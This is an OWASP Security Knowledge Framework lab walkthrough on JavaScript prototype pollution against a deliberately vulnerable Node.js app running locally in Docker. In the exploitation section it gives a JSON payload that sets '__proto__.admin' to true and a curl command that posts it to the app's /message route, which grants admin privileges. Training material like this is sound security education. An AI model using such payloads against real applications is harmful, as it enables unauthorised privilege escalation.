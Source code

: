# Prototype Pollution

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-prototype-pollution
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-prototype-pollution
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

JavaScript is prototype-based: when new objects are created, they carry over the properties and methods of the prototype “object”, which contains basic functionalities such as toString, constructor and hasOwnProperty.

Object-based inheritance gives JavaScript the flexibility and efficiency that web programmers have come to love – but it also makes it vulnerable to tampering.

Malicious actors can make application-wide changes to all objects by modifying object, hence the name prototype pollution.

Interestingly, attackers don’t even need to directly modify object – they can access it through the ‘**proto**’ property of any JavaScript object. And once you make a change to object, it applies to all JavaScript objects in a running application, including those created after tampering.

Let's open the application, we have a login screen:

![](../../.gitbook/assets/nodejs/Prototype-Pollution/1.png)

Loggin in with user/user.

![](../../.gitbook/assets/nodejs/Prototype-Pollution/2.png)

We see this user has no Admin privileges, also we have a feature to send a message to an admin. Let's use this and check the request

![](../../.gitbook/assets/nodejs/Prototype-Pollution/3.png)

Post request with email and username as expected.
We also noticed in the homepage a functionality to create a new user.

![](../../.gitbook/assets/nodejs/Prototype-Pollution/5.png)

Login with the newly created user.

![](../../.gitbook/assets/nodejs/Prototype-Pollution/6.png)

## Exploitation

Let's try our prototype pollution payload in the /message route.

```json
{
  "__proto__": { "admin": true },
  "email": "evil@proto.pollution",
  "msg": "You have been hacked!"
}
```

To make it easier let's put this payload in a file called evil.json.
Now lets use to curl to request the application with evil.json

```text
curl -H "content-type: application/json" -d@evil.json http://localhost:5000/message
```

![](../../.gitbook/assets/nodejs/Prototype-Pollution/4.png)

We get a response back from the server. Let's refresh the page to see if it worked.

![](../../.gitbook/assets/nodejs/Prototype-Pollution/7.png)

Success! We now have a user with admin privileges!

If we create another user we see the new user will also have admin set to True.

![](../../.gitbook/assets/nodejs/Prototype-Pollution/8.png)

![](../../.gitbook/assets/nodejs/Prototype-Pollution/9.png)

## Additional sources

{% embed url="https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications" %}
